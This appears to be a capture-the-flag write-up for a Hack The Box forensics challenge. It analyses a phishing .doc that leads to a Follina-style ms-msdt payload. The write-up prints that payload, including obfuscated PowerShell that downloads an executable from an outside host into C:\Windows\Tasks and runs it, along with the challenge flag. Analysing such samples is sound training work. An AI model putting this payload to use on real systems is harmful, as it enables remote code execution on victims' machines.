



# Diagnostic - Write Up

## Description :
 
Our SOC has identified numerous phishing emails coming in claiming to have a document about an upcoming round of layoffs in the company. The emails all contain a link to diagnostic.htb/layoffs.doc. The DNS for that domain has since stopped resolving, but the server is still hosting the malicious document (your docker). Take a look and figure out what's going on.

## Step 1 : 

We go into the bar finder the .doc file by getting the Docker Host in the Diagnostic Box page and fill the search with '/layoffs.doc' and download the file :


## Step 2 : 

We will need to download and install 'usetool' and use the following command :

$oleid diagnostic.doc

With that command analyse the .doc file and gives us some indicators



We have a big red flag down to this board : External relationship that is a High risk and the description is that an external relationship has been found and it says that we can enter the command oleobject for details

## Step 3 :

With that we can enter the command :

$oleobj diagnostic.doc



With that answer we know that there is an external link that we have to get from the link here

Jonathan mettre une image ici ------------------ 

We arrive on a white page and we have to check the page source that is hidden

## Step 4 : 

After we open the page source we get this script :
```
\<script\>location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \\"IT\_RebrowseForFile=? IT\_LaunchMethod=ContextMenu IT\_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+:+:+'UTF8.GetString([System.Convert]'+:+:+'FromBase64String('+"+'JHtmYGlsZX0gPSAoIns3fXsxfXs2fXs4fXs1fXszfXsyfXs0fXswfSItZid9LmV4ZScsJ0J7bXNEdF80c19BX3ByMCcsJ0UnLCdyLi4ucycsJzNNc19iNEQnLCdsMycsJ3RvQycsJ0hUJywnMGxfaDRuRCcpCiYoInsxfXsyfXswfXszfSItZid1ZXMnLCdJbnZva2UnLCctV2ViUmVxJywndCcpICgiezJ9ezh9ezB9ezR9ezZ9ezV9ezN9ezF9ezd9Ii1mICc6Ly9hdScsJy5odGIvMicsJ2gnLCdpYycsJ3RvJywnYWdub3N0JywnbWF0aW9uLmRpJywnL24uZXhlJywndHRwcycpIC1PdXRGaWxlICJDOlxXaW5kb3dzXFRhc2tzXCRmaWxlIgomKCgoIns1fXs2fXsyfXs4fXswfXszfXs3fXs0fXsxfSIgLWYnTDlGVGFza3NMOUYnLCdpbGUnLCdvdycsJ0wnLCdmJywnQzonLCdMOUZMOUZXaW5kJywnOUZrekgnLCdzTDlGJykpICAtQ1JlcGxBY2Una3pIJyxbY2hBcl0zNiAtQ1JlcGxBY2UoW2NoQXJdNzYrW2NoQXJdNTcrW2NoQXJdNzApLFtjaEFyXTkyKQo='+"+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe\\""; //Tm93IGZvciBhIGNoZWVyIHRoZXkgYXJlIGhlcmUsCnRyaXVtcGhhbnQhCkhlcmUgdGhleSBjb21lIHdpdGggYmFubmVycyBmbHlpbmcsCkluIHN0YWx3YXJ0IHN0ZXAgdGhleSdyZSBuaWdoaW5nLApXaXRoIHNob3V0cyBvZiB2aWN0J3J5IGNyeWluZywKV2UgaHVycmFoLCBodXJyYWgsIHdlIGdyZWV0IHlvdSBub3csCkhhaWwhCgpGYXIgd2UgdGhlaXIgcHJhaXNlcyBzaW5nCkZvciB0aGUgZ2xvcnkgYW5kIGZhbWUgdGhleSd2ZSBicm8ndCB1cwpMb3VkIGxldCB0aGUgYmVsbHMgdGhlbSByaW5nCkZvciBoZXJlIHRoZXkgY29tZSB3aXRoIGJhbm5lcnMgZmx5aW5nCkZhciB3ZSB0aGVpciBwcmFpc2VzIHRlbGwKRm9yIHRoZSBnbG9yeSBhbmQgZmFtZSB0aGV5J3ZlIGJybyd0IHVzCkxvdWQgbGV0IHRoZSBiZWxscyB0aGVtIHJpbmcKRm9yIGhlcmUgdGhleSBjb21lIHdpdGggYmFubmVycyBmbHlpbmcKSGVyZSB0aGV5IGNvbWUsIEh1cnJhaCEKCkhhaWwhIHRvIHRoZSB2aWN0b3JzIHZhbGlhbnQKSGFpbCEgdG8gdGhlIGNvbnF1J3JpbmcgaGVyb2VzCkhhaWwhIEhhaWwhIHRvIE1pY2hpZ2FuCnRoZSBsZWFkZXJzIGFuZCBiZXN0CkhhaWwhIHRvIHRoZSB2aWN0b3JzIHZhbGlhbnQKSGFpbCEgdG8gdGhlIGNvbnF1J3JpbmcgaGVyb2VzCkhhaWwhIEhhaWwhIHRvIE1pY2hpZ2FuLAp0aGUgY2hhbXBpb25zIG9mIHRoZSBXZXN0IQoKV2UgY2hlZXIgdGhlbSBhZ2FpbgpXZSBjaGVlciBhbmQgY2hlZXIgYWdhaW4KRm9yIE1pY2hpZ2FuLCB3ZSBjaGVlciBmb3IgTWljaGlnYW4KV2UgY2hlZXIgd2l0aCBtaWdodCBhbmQgbWFpbgpXZSBjaGVlciwgY2hlZXIsIGNoZWVyCldpdGggbWlnaHQgYW5kIG1haW4gd2UgY2hlZXIhCgoKSGFpbCEgdG8gdGhlIHZpY3RvcnMgdmFsaWFudApIYWlsISB0byB0aGUgY29ucXUncmluZyBoZXJvZXMKSGFpbCEgSGFpbCEgdG8gTWljaGlnYW4sCnRoZSBjaGFtcGlvbnMgb2YgdGhlIFdlc3Qh Ck5vdyBmb3IgYSBjaGVlciB0aGV5IGFyZSBoZXJlLAp0cml1bXBoYW50IQpIZXJlIHRoZXkgY29tZSB3aXRoIGJhbm5lcnMgZmx5aW5nLApJbiBzdGFsd2FydCBzdGVwIHRoZXkncmUgbmlnaGluZywKV2l0aCBzaG91dHMgb2YgdmljdCdyeSBjcnlpbmcsCldlIGh1cnJhaCwgaHVycmFoLCB3ZSBncmVldCB5b3Ugbm93LApIYWlsIQoKRmFyIHdlIHRoZWlyIHByYWlzZXMgc2luZwpGb3IgdGhlIGdsb3J5IGFuZCBmYW1lIHRoZXkndmUgYnJvJ3QgdXMKTG91ZCBsZXQgdGhlIGJlbGxzIHRoZW0gcmluZwpGb3IgaGVyZSB0aGV5IGNvbWUgd2l0aCBiYW5uZXJzIGZseWluZwpGYXIgd2UgdGhlaXIgcHJhaXNlcyB0ZWxsCkZvciB0aGUgZ2xvcnkgYW5kIGZhbWUgdGhleSd2ZSBicm8ndCB1cwpMb3VkIGxldCB0aGUgYmVsbHMgdGhlbSByaW5nCkZvciBoZXJlIHRoZXkgY29tZSB3aXRoIGJhbm5lcnMgZmx5aW5nCkhlcmUgdGhleSBjb21lLCBIdXJyYWghCgpIYWlsISB0byB0aGUgdmljdG9ycyB2YWxpYW50CkhhaWwhIHRvIHRoZSBjb25xdSdyaW5nIGhlcm9lcwpIYWlsISBIYWlsISB0byBNaWNoaWdhbgp0aGUgbGVhZGVycyBhbmQgYmVzdApIYWlsISB0byB0aGUgdmljdG9ycyB2YWxpYW50CkhhaWwhIHRvIHRoZSBjb25xdSdyaW5nIGhlcm9lcwpIYWlsISBIYWlsISB0byBNaWNoaWdhbiwKdGhlIGNoYW1waW9ucyBvZiB0aGUgV2VzdCEKCldlIGNoZWVyIHRoZW0gYWdhaW4KV2UgY2hlZXIgYW5kIGNoZWVyIGFnYWluCkZvciBNaWNoaWdhbiwgd2UgY2hlZXIgZm9yIE1pY2hpZ2FuCldlIGNoZWVyIHdpdGggbWlnaHQgYW5kIG1haW4KV2UgY2hlZXIsIGNoZWVyLCBjaGVlcgpXaXRoIG1pZ2h0IGFuZCBtYWluIHdlIGNoZWVyIQoKCkhhaWwhIHRvIHRoZSB2aWN0b3JzIHZhbGlhbnQKSGFpbCEgdG8gdGhlIGNvbnF1J3JpbmcgaGVyb2VzCkhhaWwhIEhhaWwhIHRvIE1pY2hpZ2FuLAp0aGUgY2hhbXBpb25zIG9mIHRoZSBXZXN0IQ== CgpOb3cgZm9yIGEgY2hlZXIgdGhleSBhcmUgaGVyZSwKdHJpdW1waGFudCEKSGVyZSB0aGV5IGNvbWUgd2l0aCBiYW5uZXJzIGZseWluZywKSW4gc3RhbHdhcnQgc3RlcCB0aGV5J3JlIG5pZ2hpbmcsCldpdGggc2hvdXRzIG9mIHZpY3QncnkgY3J5aW5nLApXZSBodXJyYWgsIGh1cnJhaCwgd2UgZ3JlZXQgeW91IG5vdywKSGFpbCEKCkZhciB3ZSB0aGVpciBwcmFpc2VzIHNpbmcKRm9yIHRoZSBnbG9yeSBhbmQgZmFtZSB0aGV5J3ZlIGJybyd0IHVzCkxvdWQgbGV0IHRoZSBiZWxscyB0aGVtIHJpbmcKRm9yIGhlcmUgdGhleSBjb21lIHdpdGggYmFubmVycyBmbHlpbmcKRmFyIHdlIHRoZWlyIHByYWlzZXMgdGVsbApGb3IgdGhlIGdsb3J5IGFuZCBmYW1lIHRoZXkndmUgYnJvJ3QgdXMKTG91ZCBsZXQgdGhlIGJlbGxzIHRoZW0gcmluZwpGb3IgaGVyZSB0aGV5IGNvbWUgd2l0aCBiYW5uZXJzIGZseWluZwpIZXJlIHRoZXkgY29tZSwgSHVycmFoIQoKSGFpbCEgdG8gdGhlIHZpY3RvcnMgdmFsaWFudApIYWlsISB0byB0aGUgY29ucXUncmluZyBoZXJvZXMKSGFpbCEgSGFpbCEgdG8gTWljaGlnYW4KdGhlIGxlYWRlcnMgYW5kIGJlc3QKSGFpbCEgdG8gdGhlIHZpY3RvcnMgdmFsaWFudApIYWlsISB0byB0aGUgY29ucXUncmluZyBoZXJvZXMKSGFpbCEgSGFpbCEgdG8gTWljaGlnYW4sCnRoZSBjaGFtcGlvbnMgb2YgdGhlIFdlc3QhCgpXZSBjaGVlciB0aGVtIGFnYWluCldlIGNoZWVyIGFuZCBjaGVlciBhZ2FpbgpGb3IgTWljaGlnYW4sIHdlIGNoZWVyIGZvciBNaWNoaWdhbgpXZSBjaGVlciB3aXRoIG1pZ2h0IGFuZCBtYWluCldlIGNoZWVyLCBjaGVlciwgY2hlZXIKV2l0aCBtaWdodCBhbmQgbWFpbiB3ZSBjaGVlciEKCgpIYWlsISB0byB0aGUgdmljdG9ycyB2YWxpYW50CkhhaWwhIHRvIHRoZSBjb25xdSdyaW5nIGhlcm9lcwpIYWlsISBIYWlsISB0byBNaWNoaWdhbiwKdGhlIGNoYW1waW9ucyBvZiB0aGUgV2VzdCE= SGFyayB0aGUgc291bmQgb2YgVGFyIEhlZWwgdm9pY2VzClJpbmdpbmcgY2xlYXIgYW5kIFRydWUKU2luZ2luZyBDYXJvbGluYSdzIHByYWlzZXMKU2hvdXRpbmcgTi5DLlUuCgpIYWlsIHRvIHRoZSBicmlnaHRlc3QgU3RhciBvZiBhbGwKQ2xlYXIgaXRzIHJhZGlhbmNlIHNoaW5lCkNhcm9saW5hIHByaWNlbGVzcyBnZW0sClJlY2VpdmUgYWxsIHByYWlzZXMgdGhpbmUuCgpOZWF0aCB0aGUgb2FrcyB0aHkgc29ucyBhbmQgZGF1Z2h0ZXJzCkhvbWFnZSBwYXkgdG8gdGhlZQpUaW1lIHdvcm4gd2FsbHMgZ2l2ZSBiYWNrIHRoZWlyIGVjaG8KSGFpbCB0byBVLk4uQy4KClRob3VnaCB0aGUgc3Rvcm1zIG9mIGxpZmUgYXNzYWlsIHVzClN0aWxsIG91ciBoZWFydHMgYmVhdCB0cnVlCk5hdWdodCBjYW4gYnJlYWsgdGhlIGZyaWVuZHNoaXBzIGZvcm1lZCBhdApEZWFyIG9sZCBOLkMuVS4= CkhhcmsgdGhlIHNvdW5kIG9mIFRhciBIZWVsIHZvaWNlcwpSaW5naW5nIGNsZWFyIGFuZCBUcnVlClNpbmdpbmcgQ2Fyb2xpbmEncyBwcmFpc2VzClNob3V0aW5nIE4uQy5VLgoKSGFpbCB0byB0aGUgYnJpZ2h0ZXN0IFN0YXIgb2YgYWxsCkNsZWFyIGl0cyByYWRpYW5jZSBzaGluZQpDYXJvbGluYSBwcmljZWxlc3MgZ2VtLApSZWNlaXZlIGFsbCBwcmFpc2VzIHRoaW5lLgoKTmVhdGggdGhlIG9ha3MgdGh5IHNvbnMgYW5kIGRhdWdodGVycwpIb21hZ2UgcGF5IHRvIHRoZWUKVGltZSB3b3JuIHdhbGxzIGdpdmUgYmFjayB0aGVpciBlY2hvCkhhaWwgdG8gVS5OLkMuCgpUaG91Z2ggdGhlIHN0b3JtcyBvZiBsaWZlIGFzc2FpbCB1cwpTdGlsbCBvdXIgaGVhcnRzIGJlYXQgdHJ1ZQpOYXVnaHQgY2FuIGJyZWFrIHRoZSBmcmllbmRzaGlwcyBmb3JtZWQgYXQKRGVhciBvbGQgTi5DLlUu \</script\>
```
## Step 5 : 

With the ASCII Table we have to change value CHAR[\_\_] by the value from the ASCII Table and we have this result now :
```
\<script\>location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \\"IT\_RebrowseForFile=? IT\_LaunchMethod=ContextMenu IT\_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+:+:+'UTF8.GetString([System.Convert]'+:+:+'FromBase64String('+"+'JHtmYGlsZX0gPSAoIns3fXsxfXs2fXs4fXs1fXszfXsyfXs0fXswfSItZid9LmV4ZScsJ0J7bXNEdF80c19BX3ByMCcsJ0UnLCdyLi4ucycsJzNNc19iNEQnLCdsMycsJ3RvQycsJ0hUJywnMGxfaDRuRCcpCiYoInsxfXsyfXswfXszfSItZid1ZXMnLCdJbnZva2UnLCctV2ViUmVxJywndCcpICgiezJ9ezh9ezB9ezR9ezZ9ezV9ezN9ezF9ezd9Ii1mICc6Ly9hdScsJy5odGIvMicsJ2gnLCdpYycsJ3RvJywnYWdub3N0JywnbWF0aW9uLmRpJywnL24uZXhlJywndHRwcycpIC1PdXRGaWxlICJDOlxXaW5kb3dzXFRhc2tzXCRmaWxlIgomKCgoIns1fXs2fXsyfXs4fXswfXszfXs3fXs0fXsxfSIgLWYnTDlGVGFza3NMOUYnLCdpbGUnLCdvdycsJ0wnLCdmJywnQzonLCdMOUZMOUZXaW5kJywnOUZrekgnLCdzTDlGJykpICAtQ1JlcGxBY2Una3pIJyxbY2hBcl0zNiAtQ1JlcGxBY2UoW2NoQXJdNzYrW2NoQXJdNTcrW2NoQXJdNzApLFtjaEFyXTkyKQo='+"+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe\\""; //Tm93IGZvciBhIGNoZWVyIHRoZXkgYXJlIGhlcmUsCnRyaXVtcGhhbnQhCkhlcmUgdGhleSBjb21lIHdpdGggYmFubmVycyBmbHlpbmcsCkluIHN0YWx3YXJ0IHN0ZXAgdGhleSdyZSBuaWdoaW5nLApXaXRoIHNob3V0cyBvZiB2aWN0J3J5IGNyeWluZywKV2UgaHVycmFoLCBodXJyYWgsIHdlIGdyZWV0IHlvdSBub3csCkhhaWwhCgpGYXIgd2UgdGhlaXIgcHJhaXNlcyBzaW5nCkZvciB0aGUgZ2xvcnkgYW5kIGZhbWUgdGhleSd2ZSBicm8ndCB1cwpMb3VkIGxldCB0aGUgYmVsbHMgdGhlbSByaW5nCkZvciBoZXJlIHRoZXkgY29tZSB3aXRoIGJhbm5lcnMgZmx5aW5nCkZhciB3ZSB0aGVpciBwcmFpc2VzIHRlbGwKRm9yIHRoZSBnbG9yeSBhbmQgZmFtZSB0aGV5J3ZlIGJybyd0IHVzCkxvdWQgbGV0IHRoZSBiZWxscyB0aGVtIHJpbmcKRm9yIGhlcmUgdGhleSBjb21lIHdpdGggYmFubmVycyBmbHlpbmcKSGVyZSB0aGV5IGNvbWUsIEh1cnJhaCEKCkhhaWwhIHRvIHRoZSB2aWN0b3JzIHZhbGlhbnQKSGFpbCEgdG8gdGhlIGNvbnF1J3JpbmcgaGVyb2VzCkhhaWwhIEhhaWwhIHRvIE1pY2hpZ2FuCnRoZSBsZWFkZXJzIGFuZCBiZXN0CkhhaWwhIHRvIHRoZSB2aWN0b3JzIHZhbGlhbnQKSGFpbCEgdG8gdGhlIGNvbnF1J3JpbmcgaGVyb2VzCkhhaWwhIEhhaWwhIHRvIE1pY2hpZ2FuLAp0aGUgY2hhbXBpb25zIG9mIHRoZSBXZXN0IQoKV2UgY2hlZXIgdGhlbSBhZ2FpbgpXZSBjaGVlciBhbmQgY2hlZXIgYWdhaW4KRm9yIE1pY2hpZ2FuLCB3ZSBjaGVlciBmb3IgTWljaGlnYW4KV2UgY2hlZXIgd2l0aCBtaWdodCBhbmQgbWFpbgpXZSBjaGVlciwgY2hlZXIsIGNoZWVyCldpdGggbWlnaHQgYW5kIG1haW4gd2UgY2hlZXIhCgoKSGFpbCEgdG8gdGhlIHZpY3RvcnMgdmFsaWFudApIYWlsISB0byB0aGUgY29ucXUncmluZyBoZXJvZXMKSGFpbCEgSGFpbCEgdG8gTWljaGlnYW4sCnRoZSBjaGFtcGlvbnMgb2YgdGhlIFdlc3Qh Ck5vdyBmb3IgYSBjaGVlciB0aGV5IGFyZSBoZXJlLAp0cml1bXBoYW50IQpIZXJlIHRoZXkgY29tZSB3aXRoIGJhbm5lcnMgZmx5aW5nLApJbiBzdGFsd2FydCBzdGVwIHRoZXkncmUgbmlnaGluZywKV2l0aCBzaG91dHMgb2YgdmljdCdyeSBjcnlpbmcsCldlIGh1cnJhaCwgaHVycmFoLCB3ZSBncmVldCB5b3Ugbm93LApIYWlsIQoKRmFyIHdlIHRoZWlyIHByYWlzZXMgc2luZwpGb3IgdGhlIGdsb3J5IGFuZCBmYW1lIHRoZXkndmUgYnJvJ3QgdXMKTG91ZCBsZXQgdGhlIGJlbGxzIHRoZW0gcmluZwpGb3IgaGVyZSB0aGV5IGNvbWUgd2l0aCBiYW5uZXJzIGZseWluZwpGYXIgd2UgdGhlaXIgcHJhaXNlcyB0ZWxsCkZvciB0aGUgZ2xvcnkgYW5kIGZhbWUgdGhleSd2ZSBicm8ndCB1cwpMb3VkIGxldCB0aGUgYmVsbHMgdGhlbSByaW5nCkZvciBoZXJlIHRoZXkgY29tZSB3aXRoIGJhbm5lcnMgZmx5aW5nCkhlcmUgdGhleSBjb21lLCBIdXJyYWghCgpIYWlsISB0byB0aGUgdmljdG9ycyB2YWxpYW50CkhhaWwhIHRvIHRoZSBjb25xdSdyaW5nIGhlcm9lcwpIYWlsISBIYWlsISB0byBNaWNoaWdhbgp0aGUgbGVhZGVycyBhbmQgYmVzdApIYWlsISB0byB0aGUgdmljdG9ycyB2YWxpYW50CkhhaWwhIHRvIHRoZSBjb25xdSdyaW5nIGhlcm9lcwpIYWlsISBIYWlsISB0byBNaWNoaWdhbiwKdGhlIGNoYW1waW9ucyBvZiB0aGUgV2VzdCEKCldlIGNoZWVyIHRoZW0gYWdhaW4KV2UgY2hlZXIgYW5kIGNoZWVyIGFnYWluCkZvciBNaWNoaWdhbiwgd2UgY2hlZXIgZm9yIE1pY2hpZ2FuCldlIGNoZWVyIHdpdGggbWlnaHQgYW5kIG1haW4KV2UgY2hlZXIsIGNoZWVyLCBjaGVlcgpXaXRoIG1pZ2h0IGFuZCBtYWluIHdlIGNoZWVyIQoKCkhhaWwhIHRvIHRoZSB2aWN0b3JzIHZhbGlhbnQKSGFpbCEgdG8gdGhlIGNvbnF1J3JpbmcgaGVyb2VzCkhhaWwhIEhhaWwhIHRvIE1pY2hpZ2FuLAp0aGUgY2hhbXBpb25zIG9mIHRoZSBXZXN0IQ== CgpOb3cgZm9yIGEgY2hlZXIgdGhleSBhcmUgaGVyZSwKdHJpdW1waGFudCEKSGVyZSB0aGV5IGNvbWUgd2l0aCBiYW5uZXJzIGZseWluZywKSW4gc3RhbHdhcnQgc3RlcCB0aGV5J3JlIG5pZ2hpbmcsCldpdGggc2hvdXRzIG9mIHZpY3QncnkgY3J5aW5nLApXZSBodXJyYWgsIGh1cnJhaCwgd2UgZ3JlZXQgeW91IG5vdywKSGFpbCEKCkZhciB3ZSB0aGVpciBwcmFpc2VzIHNpbmcKRm9yIHRoZSBnbG9yeSBhbmQgZmFtZSB0aGV5J3ZlIGJybyd0IHVzCkxvdWQgbGV0IHRoZSBiZWxscyB0aGVtIHJpbmcKRm9yIGhlcmUgdGhleSBjb21lIHdpdGggYmFubmVycyBmbHlpbmcKRmFyIHdlIHRoZWlyIHByYWlzZXMgdGVsbApGb3IgdGhlIGdsb3J5IGFuZCBmYW1lIHRoZXkndmUgYnJvJ3QgdXMKTG91ZCBsZXQgdGhlIGJlbGxzIHRoZW0gcmluZwpGb3IgaGVyZSB0aGV5IGNvbWUgd2l0aCBiYW5uZXJzIGZseWluZwpIZXJlIHRoZXkgY29tZSwgSHVycmFoIQoKSGFpbCEgdG8gdGhlIHZpY3RvcnMgdmFsaWFudApIYWlsISB0byB0aGUgY29ucXUncmluZyBoZXJvZXMKSGFpbCEgSGFpbCEgdG8gTWljaGlnYW4KdGhlIGxlYWRlcnMgYW5kIGJlc3QKSGFpbCEgdG8gdGhlIHZpY3RvcnMgdmFsaWFudApIYWlsISB0byB0aGUgY29ucXUncmluZyBoZXJvZXMKSGFpbCEgSGFpbCEgdG8gTWljaGlnYW4sCnRoZSBjaGFtcGlvbnMgb2YgdGhlIFdlc3QhCgpXZSBjaGVlciB0aGVtIGFnYWluCldlIGNoZWVyIGFuZCBjaGVlciBhZ2FpbgpGb3IgTWljaGlnYW4sIHdlIGNoZWVyIGZvciBNaWNoaWdhbgpXZSBjaGVlciB3aXRoIG1pZ2h0IGFuZCBtYWluCldlIGNoZWVyLCBjaGVlciwgY2hlZXIKV2l0aCBtaWdodCBhbmQgbWFpbiB3ZSBjaGVlciEKCgpIYWlsISB0byB0aGUgdmljdG9ycyB2YWxpYW50CkhhaWwhIHRvIHRoZSBjb25xdSdyaW5nIGhlcm9lcwpIYWlsISBIYWlsISB0byBNaWNoaWdhbiwKdGhlIGNoYW1waW9ucyBvZiB0aGUgV2VzdCE= SGFyayB0aGUgc291bmQgb2YgVGFyIEhlZWwgdm9pY2VzClJpbmdpbmcgY2xlYXIgYW5kIFRydWUKU2luZ2luZyBDYXJvbGluYSdzIHByYWlzZXMKU2hvdXRpbmcgTi5DLlUuCgpIYWlsIHRvIHRoZSBicmlnaHRlc3QgU3RhciBvZiBhbGwKQ2xlYXIgaXRzIHJhZGlhbmNlIHNoaW5lCkNhcm9saW5hIHByaWNlbGVzcyBnZW0sClJlY2VpdmUgYWxsIHByYWlzZXMgdGhpbmUuCgpOZWF0aCB0aGUgb2FrcyB0aHkgc29ucyBhbmQgZGF1Z2h0ZXJzCkhvbWFnZSBwYXkgdG8gdGhlZQpUaW1lIHdvcm4gd2FsbHMgZ2l2ZSBiYWNrIHRoZWlyIGVjaG8KSGFpbCB0byBVLk4uQy4KClRob3VnaCB0aGUgc3Rvcm1zIG9mIGxpZmUgYXNzYWlsIHVzClN0aWxsIG91ciBoZWFydHMgYmVhdCB0cnVlCk5hdWdodCBjYW4gYnJlYWsgdGhlIGZyaWVuZHNoaXBzIGZvcm1lZCBhdApEZWFyIG9sZCBOLkMuVS4= CkhhcmsgdGhlIHNvdW5kIG9mIFRhciBIZWVsIHZvaWNlcwpSaW5naW5nIGNsZWFyIGFuZCBUcnVlClNpbmdpbmcgQ2Fyb2xpbmEncyBwcmFpc2VzClNob3V0aW5nIE4uQy5VLgoKSGFpbCB0byB0aGUgYnJpZ2h0ZXN0IFN0YXIgb2YgYWxsCkNsZWFyIGl0cyByYWRpYW5jZSBzaGluZQpDYXJvbGluYSBwcmljZWxlc3MgZ2VtLApSZWNlaXZlIGFsbCBwcmFpc2VzIHRoaW5lLgoKTmVhdGggdGhlIG9ha3MgdGh5IHNvbnMgYW5kIGRhdWdodGVycwpIb21hZ2UgcGF5IHRvIHRoZWUKVGltZSB3b3JuIHdhbGxzIGdpdmUgYmFjayB0aGVpciBlY2hvCkhhaWwgdG8gVS5OLkMuCgpUaG91Z2ggdGhlIHN0b3JtcyBvZiBsaWZlIGFzc2FpbCB1cwpTdGlsbCBvdXIgaGVhcnRzIGJlYXQgdHJ1ZQpOYXVnaHQgY2FuIGJyZWFrIHRoZSBmcmllbmRzaGlwcyBmb3JtZWQgYXQKRGVhciBvbGQgTi5DLlUu \</script\>
```
## Step 6 : 

With that we can convert the differents parts of the script from base 64, So first we are trying to convert this part :
```
JHtmYGlsZX0gPSAoIns3fXsxfXs2fXs4fXs1fXszfXsyfXs0fXswfSItZid9LmV4ZScsJ0J7bXNEdF80c19BX3ByMCcsJ0UnLCdyLi4ucycsJzNNc19iNEQnLCdsMycsJ3RvQycsJ0hUJywnMGxfaDRuRCcpCiYoInsxfXsyfXswfXszfSItZid1ZXMnLCdJbnZva2UnLCctV2ViUmVxJywndCcpICgiezJ9ezh9ezB9ezR9ezZ9ezV9ezN9ezF9ezd9Ii1mICc6Ly9hdScsJy5odGIvMicsJ2gnLCdpYycsJ3RvJywnYWdub3N0JywnbWF0aW9uLmRpJywnL24uZXhlJywndHRwcycpIC1PdXRGaWxlICJDOlxXaW5kb3dzXFRhc2tzXCRmaWxlIgomKCgoIns1fXs2fXsyfXs4fXswfXszfXs3fXs0fXsxfSIgLWYnTDlGVGFza3NMOUYnLCdpbGUnLCdvdycsJ0wnLCdmJywnQzonLCdMOUZMOUZXaW5kJywnOUZrekgnLCdzTDlGJykpICAtQ1JlcGxBY2Una3pIJyxbY2hBcl0zNiAtQ1JlcGxBY2UoW2NoQXJdNzYrW2NoQXJdNTcrW2NoQXJdNzApLFtjaEFyXTkyKQo
```
With this part we get this :
```
${f`ile} = ("{7}{1}{6}{8}{5}{3}{2}{4}{0}"-f'}.exe','B{msDt\_4s\_A\_pr0','E','r...s','3Ms\_b4D','l3','toC','HT','0l\_h4nD')

&("{1}{2}{0}{3}"-f'ues','Invoke','-WebReq','t') ("{2}{8}{0}{4}{6}{5}{3}{1}{7}"-f '://au','.htb/2','h','ic','to','agnost','mation.di','/n.exe','ttps') -OutFile "C:\Windows\Tasks\$file"

&((("{5}{6}{2}{8}{0}{3}{7}{4}{1}" -f'L9FTasksL9F','ile','ow','L','f','C:','L9FL9FWind','9FkzH','sL9F')) -CReplAce'kzH',[chAr]36 -CReplAce([chAr]76+[chAr]57+[chAr]70),[chAr]92)
```
And if we convert everything we get this :
```
\<script\>location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \\"IT\_RebrowseForFile=? IT\_LaunchMethod=ContextMenu IT\_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+:+:+'UTF8.GetString([System.Convert]'+:+:+'FromBase64String('+"+'${f`ile} = ("{7}{1}{6}{8}{5}{3}{2}{4}{0}"-f'}.exe','B{msDt\_4s\_A\_pr0','E','r...s','3Ms\_b4D','l3','toC','HT','0l\_h4nD')

&("{1}{2}{0}{3}"-f'ues','Invoke','-WebReq','t') ("{2}{8}{0}{4}{6}{5}{3}{1}{7}"-f '://au','.htb/2','h','ic','to','agnost','mation.di','/n.exe','ttps') -OutFile "C:\Windows\Tasks\$file"

&((("{5}{6}{2}{8}{0}{3}{7}{4}{1}" -f'L9FTasksL9F','ile','ow','L','f','C:','L9FL9FWind','9FkzH','sL9F')) -CReplAce'kzH',[chAr]36 -CReplAce([chAr]76+[chAr]57+[chAr]70),[chAr]92)'+"+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe\\""; //Now for a

cheer they are here,

triumphant!

Here they come with banners flying,

In stalwart step they're nighing,

With shouts of vict'ry crying,

We hurrah, hurrah, we greet you now,

Hail!

Far we their praises sing

For the glory and fame they've bro't us

Loud let the bells them ring

For here they come with banners flying

Far we their praises tell

For the glory and fame they've bro't us

Loud let the bells them ring

For here they come with banners flying

Here they come, Hurrah!

Hail! to the victors valiant

Hail! to the conqu'ring heroes

Hail! Hail! to Michigan

the leaders and best

Hail! to the victors valiant

Hail! to the conqu'ring heroes

Hail! Hail! to Michigan,

the champions of the West!

We cheer them again

We cheer and cheer again

For Michigan, we cheer for Michigan

We cheer with might and main

We cheer, cheer, cheer

With might and main we cheer!

Hail! to the victors valiant

Hail! to the conqu'ring heroes

Hail! Hail! to Michigan,

the champions of the West!

Now for a cheer they are here,

triumphant!

Here they come with banners flying,

In stalwart step they're nighing,

With shouts of vict'ry crying,

We hurrah, hurrah, we greet you now,

Hail!

Far we their praises sing

For the glory and fame they've bro't us

Loud let the bells them ring

For here they come with banners flying

Far we their praises tell

For the glory and fame they've bro't us

Loud let the bells them ring

For here they come with banners flying

Here they come, Hurrah!

Hail! to the victors valiant

Hail! to the conqu'ring heroes

Hail! Hail! to Michigan

the leaders and best

Hail! to the victors valiant

Hail! to the conqu'ring heroes

Hail! Hail! to Michigan,

the champions of the West!

We cheer them again

We cheer and cheer again

For Michigan, we cheer for Michigan

We cheer with might and main

